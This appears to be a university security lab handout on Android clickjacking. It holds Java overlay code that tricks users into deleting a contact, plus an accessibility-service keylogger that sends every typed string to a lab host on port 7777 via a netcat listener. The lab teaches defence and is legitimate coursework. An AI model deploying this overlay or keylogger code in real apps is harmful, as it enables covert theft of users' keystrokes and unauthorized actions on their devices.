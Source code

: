 .. container:: center

   Clickjacking Attack Lab

***********************
Clickjacking Attack Lab
***********************

Overview
========

Clickjacking attack is a very common type of attack for most devices. In
such an attack, attacker uses multiple transparent or opaque layers to
trick a user into clicking on a button or link on another page when they
were intending to click on the top level page. Users can be easily
fooled, and do not even realise where they are really clicking.
Attackers need user interaction to make this attack successful, hence
they usually design clickjacking attack applications in the form of
games or survery forms.

The learning objective of this lab is for students to gain a first-hand
experience in Clickjacking attack, so they can better understand this
particular risk associated with Android systems, and be more cautious
when downloading apps to their devices, especially from those untrusted
third-party markets. In this lab, students will be asked to conduct a
simple clickjacking attack and demonstrate it on our provided Android
VM. Students will also see what damage can be done with a fully
weaponized clickjacking attack.

Students should be warned not to submit the clickjacking attack apps to
any market, or they will face legal consequence. Nor should they run the
attack on their own Android devices, as that may cause real damages.

In order to conduct this attack, the attackers need only one permission,
the "Permit drawing over other apps" permission. Once they have this, it
is very difficult for users to catch the attack. Also, this permission
is very commonly used in devices. Popular applications like the Music
application, calling application, all use this permissions. Be very
careful when giving an application this permission.

.. note:: All devices are vulnerable to this attack. Attacks on devices with Android version below 7.0 do not even require users permission to draw over other applications.

Lab Environment
===============

The lab requires two virtual machines, one is called SEEDAndroid, and
the other is called SEEDUbuntu16.04. As the name indicates, the first VM
is a virtual machine running Android operating system, and we need it to
test our clickjacking attack. The second VM is a Ubuntu Linux virtual
machine; all the tools needed for this lab, have already been installed
the SEEDUbuntu VM. Both VMs and their user manuals can be downloaded
from the SEED web site.


Task 1: Perform a Clickjacking attack
=====================================

In this task we will demonstrate a clickjacking attack, where we will
delete a contact. We have already designed an application which does a
clickjacking attack and it is installed in your AndroidVM. Our
application behaves as a Calibration phase before playing a game, it
will ask you to click various button in order to complete the
calibration for best user experience. What is actually happenning in the
background is that we are deleting a contact. In order to perform this
attack, we need to get the users permission for "Permit drawing over
other apps".

Attack Code
^^^^^^^^^^^

| Before performing the attack, we will first talk about how we did this
  attack.
| After getting the required permissions, we need to design views and
  overlay them on the page. We have to make sure to cover the whole page
  and make it possible to click through these views. So, when the user
  clicks, the click is actually happenning in the background of that
  view (which is not visible to the user). We control how wide or long
  the views are using coordinate values and have to position them
  perfectly.

#. Step 1: We use an intent to open the page which closest to our goal,
   programitically. For example, to delete contacts we will open the
   contacts application first and then design our views.

   ::

      startStep1();
      Intent openContacts = new Intent(Intent.ACTION_DEFAULT,  ContactsContract.Contacts.CONTENT_URI);
      openContacts.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
      openContacts.addFlags(Intent.FLAG_ACTIVITY_NO_HISTORY);
      openContacts.addFlags(Intent.FLAG_ACTIVITY_NO_ANIMATION);
      openContacts.addFlags(Intent.FLAG_ACTIVITY_EXCLUDE_FROM_RECENTS);
      startActivity(openContacts);

   Here, the function **startStep1()** overlays our views for the first
   page. After, this create an intent which opens the contacts
   application in the background. So, the views defined by
   **startStep1()** are on top of the first page of the contacts
   applications. Consecutively, **startStep1()** will call
   **startStep2()**, **startStep3()** and so on, until we have performed
   the required tasks.

#. Step 2: The main work now is to design the views. While designing
   views we need to place the button exactly on top of where we want the
   user to click and cover the rest of the page with whitespace. This
   makes sure that the page in the background is not visible. We use
   Android WindowManager to add our views.

   Each view has a boolean value called "passthrough". If this value is
   false, the users click will not go through to the background and vice
   versa. Only the view with our button has "passthrough" as true and
   the others have false, so that users don’t click somewhere else.

   Defining our views:

   ::

      public OverlayOne(final ClickJacking service) {

              mTextView = new TextView(service);
              mTextView.setText("Calibration : ");
              mTextView.setBackgroundColor(ClickJacking.mMakeAttackVisible ? 0x66FF0000 : 0xFFFFFFFF);
              mTextView.setTextColor(0xff000000);
              mTextView.setTextSize(20f);
              mTextView.setGravity(Gravity.CENTER);
          }
      ...
      public View getView() {
              return mTextView;
          }
      ...
      public WindowManager.LayoutParams getParams() {
              return ClickJacking.getParams(mRect, false);
          }

   Here, we first define our textview.

   Here, function call **ClickJacking.mMakeAttackVisible** checks if the
   user has selected this option. If it is selected, the color schemes
   are changed and the overlays become visible to the users along with
   the background. We use this to show users the actual overlay and for
   debugging the views.

   Also, the function call **ClickJacking.getParams** return the
   coordinate values and the boolean "passthrough" value for this view.
   Each view has preset coordinates which are set using "mRect".

   Refer to **Figure 1** and **Figure 2** to see the views with "Attack
   visible" toggled on and off.

   .. figure:: media/click_jacking/Figure2.png
      :alt: alternate text
      :figclass: align-center

      Figure 1: Attack visible toggled on

   .. figure:: media/click_jacking/Figure3.png
      :alt: alternate text
      :figclass: align-center

      Figure 2: Attack visible toggled off

#. Step 3: This is the step where we add our views. This is how our
   function **startStep1()** looks like:

   ::

       public void startStep1() {
              if (currentStep > 0) return;
              currentStep = 1;
              addView(o1);
              addView(o2);
              addView(o3);
          }

   Here we add all our views. Each view checks if all views are added
   and then invokes startStep2() and so on. startStep2() will add its
   new views and remove the old ones. This is how startStep2() looks:

   ::

        public void startStep2() {
              if (currentStep > 1) return;
              currentStep = 2;
              addView(o5);
              addView(o6);
              new ViewRemover(this, o1).start();
              new ViewRemover(this, o2).start();
              new ViewRemover(this, o3).start();
          }

   **addView** and **viewRemover** are functions defined by us, which
   use Android WindowManager to set and remove views.

#. Step 4: addView() and viewRemover(): **addView() :**

   ::

       public void addView(ViewWithParams v) {
              WindowManager wm = (WindowManager) getSystemService(WINDOW_SERVICE);
              wm.addView(v.getView(), v.getParams());
          }

   Here, we create a WindowManager object and call our functions
   getView() and getParams() to add the view.

   getView() returns the view we defined in Step 2.

   getParams() checks if the view is passthrough or not, and then sets
   the layoutParams :

   ::

        private static WindowManager.LayoutParams getAlertLP(Rect rect) {
              WindowManager.LayoutParams lParams = new WindowManager.LayoutParams(
                      rect.right - rect.left,
                      rect.bottom - rect.top,
                      WindowManager.LayoutParams.TYPE_SYSTEM_ALERT,
                      WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH |
                              WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE |
                              WindowManager.LayoutParams.FLAG_NOT_TOUCH_MODAL,
                      PixelFormat.TRANSLUCENT);
              lParams.gravity = Gravity.TOP | Gravity.LEFT;
              lParams.x = rect.left;
              lParams.y = rect.top;
              return lParams;
          }

      NOTE :  "WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH"  is what allows us to click through the view. Incase, "passthrough" is false, we remove this attribute.

   **viewRemover() :**

   ::

       public static void removeView(Context ctx, View view) {
              WindowManager wm = (WindowManager) ctx.getSystemService(ctx.WINDOW_SERVICE);
              wm.removeView(view);
          }

Performing the Attack:
^^^^^^^^^^^^^^^^^^^^^^

Now we can perform the attack. This involves, two steps. Refer to figure
3 to see how the application looks:

#. Step 1: Add a contact. We will delete this contact using the
   clickjacking attack.

#. Step 2: Run the clickjacking application. Click on "ASK FOR
   PERMISSION" and it will take you to the permission page. Give that
   permission. Now, head back to the app and click on "START
   CLICKJACKING ATTACK". Follow the steps and at the end you should see
   that the contact has been deleted.

#. Additional: Now try to run the attack after toggling "Make attack
   visible" option. You should be able to see how the views have been
   overlayed on top of the contacts and get an idea of how the attack
   really works (make sure to add a new contact before trying again).

.. container:: center

   .. figure:: media/click_jacking/Figure1.png
      :alt: alternate text
      :figclass: align-center

      Figure 3: Clickjacking Attack Application

Submit screenshots to prove you have done the attack.

Task 2: Dangerous Accessibility Service in Android
==================================================

One of the most dangerous services in the Android system is the
accessibility service. If any application were to get access to the
accessibility service, they would have full access to everything that
happens on the device. That application will be able to capture
keystrokes, actions, record each click or touch etc.

In this task, we show you how dangerous an accessibility service
permission can be and how the attackers can use the attack in task 1 to
get the permissions for this service and gain full control.

.. _attack-code-1:

Attack Code
^^^^^^^^^^^

Before performing the attack, we will first talk about how a legitimate
application can use the accessibility service and how we use it in a
malicious way.

**Capturing events from accessibility service :** After getting required
permissions, we need to create a class which extends
"AccessibilityService". we can use an object of "AccessibilityEvent" to
capture various different events and do with them as we please:

::

   public class getAccessibilityEvent extends AccessibilityService {
   ...
   public void onAccessibilityEvent(AccessibilityEvent event) {
        Log.d("Event 1",event.getPackageName());
        Log.d("Event 2",event.getText());
        Log.d("Event 3",event.getPackageName());
        Log.d("Event 4",event.getEventTime());
   ...
           }
   }

**Malicious usage of the Accessibility service :** One example of
malicious usage could be to send out everything typed by the user to our
server. In our application, we use a stringbuilder to concatenate
everything typed by the user and repeatedly send this out to our server
:

::

   public class getAccessibilityEvent extends AccessibilityService {
   ...
   private String getEventText(AccessibilityEvent event) {
               StringBuilder sb = new StringBuilder();
               for (CharSequence s : event.getText()) {
                   sb.append(s);
               }
               return sb.toString();
           }
   ...
    public void onAccessibilityEvent(AccessibilityEvent event) {
               s = "package=" + event.getPackageName() + "&" + "text=" + getEventText(event);
               new SendData(s).execute();
           }
   ...
   }

**SendData** is a class which extends AsyncTask used to send data out of
the device.

::

   class SendData extends AsyncTask<String, Void, Void> {
       String s;
       public SendData(String a)
       {
           s=a;
       }
       private Exception exception;
       protected Void doInBackground(String... urls) {
               URL url = null;
               url = new URL("http://www.SeedLabClickjacking.com:7777");
               HttpURLConnection urlConnection = null;
               urlConnection = (HttpURLConnection) url.openConnection();
               urlConnection.setDoOutput(true);
               urlConnection.setChunkedStreamingMode(0);
               OutputStream out = new BufferedOutputStream(urlConnection.getOutputStream());
               out.write(s.getBytes());
               out.flush();
               urlConnection.disconnect();
          }
           return null;
       }

.. _performing-the-attack-1:

Performing the Attack: 
^^^^^^^^^^^^^^^^^^^^^^

Follow the steps below to perform the attack. We will need both the VM’s
for this task.

#. Step 1: On your SEEDUbuntu machine, open a terminal and run the
   following command:

   ::

      $ nc -kl 7777 

#. Step 2: On yourAndroidVM machine, you need to modify the
   /system/etc/hosts file and modify the IP address of
   "SeedLabsClickjacking.com" with the IP address of your SEEDUbuntu VM.
   In order to do this, we will use "adb push" and "adb pull". On your
   SEEDUbuntu machine, do the following:

   ::

      $ adb root
      $ adb disconnect
      $ adb connect IP-OF-ANDROIDVM
      $ adb pull /system/etc/hosts
      $ vim hosts
      $ adb push hosts /system/etc/

#. Step 3: Give accessibility permissions to our applications. For this:

   ::

      Go into settings -> Accessibility -> ClickJacking Attack -> Toggle on -> OK

#. Step 4: Play around in your AndroidVM and watch the SEEDUbuntu netcat
   session recieve everything you do. Try to type in the browser of the
   Android VM and you will be able to see each key being logged in our
   SEEDUbuntu machine.

Refer to **Figure 4** to see how a keylog response looks like on our
SEEDUbuntu machine.

Everything we do in step 3 of this attack can be done using clickjacking
attack. If attackers were to get your accessibility permission on their
application, all your information could be leaked.

.. container:: center

   .. figure:: media/click_jacking/Figure4.png
      :alt: alternate text
      :figclass: align-center

      Figure 4: Keylog Response on SEEDUbuntu

Task 3: Design your clickjacking attack
=======================================

In this task, we will perform a clickjacking attack to turn the airplane
mode off. We will give you the source code and you will have to allign
the views by modifying the coordinates in the "setCoords" function
inside the init() function of the ClickJacking class. Here is how
setCoords looks :

::

   ...
   setCoords(1, 0, 0, 1024, 100);
   setCoords(2, -100, 100, 1024, 300);
   setCoords(3, 0, 400, 1024, 820);
   ...

The first attribute is the "viewId" which tells us the ID of the view we
are modifying the coordinates for. In your activity, you have two views,
OverlayOne() and OverlayTwo(). You just have to play with the
coordinates of these views and align them perfectly. Debugging can be
done using "Make Attack visible" option. Here is a little more
information about setCoords:

**Function setCoords(viewId, ax, ay, bx, by);** Here, ax and ay define
the position of the content inside your view. Example, a button or a
textbox.

Bx and by define the length and breadth of the view itself.

For instance, in your task you will have to play with all 4 values with
OverlayOne(), but only with bx and by for OverlayTwo() (since
OverlayOne() contains the button).

You will have to modify the code, recompile and "adb install" the
application in the AndroidVM to test your changes. The only place you
have to modify is "setCoords" values inside the "ClickJacking.java"
file. Follow the guidelines given below to modify, recompile and install
your applications (you will neeed both your VM’s for this task) :

-  Step 1 : Download and unzip ClickJacking.zip file from our website

-  Step 2: Locate the code files. Go to the folder
   app/src/main/java/seedlabs/clickjacking2 folder.

-  Step 3: Here you should see ClickJacking.java. This is where you have
   to modify the coordinate values for our views.

-  Step 4: After making the required modifications, build the
   application and get the .apk file. To build your app go into the root
   folder of the application and run :

   ::

      $ chmod +x gradlew
      $ ./gradlew
      $ ./gradlew assembleDebug

   You can find the built .apk file in app/build/outputs/apk/

-  Step 5: Install the apk on the Android VM using :

   ::

      $ adb disconnect
      $ adb connect IP-OF-ANDROIDVM
      $ adb install YOUR-APK.apk

-  Step 6: After installation, you should find an application with the
   name "Clickjacking Attack 2"

**NOTE:**

-  1 : You should first install the application on the AndroidVM without
   changes to get a feel of the views

-  2: You have to delete the application from the AndroidVM before
   re-installing, everytime.

-  3: You will probably have to modify, recompile and re-install
   multiple times before you can allign the views perfectly

Submission and Demonstration
============================

You need to submit a detailed lab report to describe what you have done
and what you have observed, including screenshots and code snippets (if
needed). You also need to provide explanation to the observations that
are interesting or surprising. You are encouraged to pursue further
investigation, beyond what is required by the lab description.
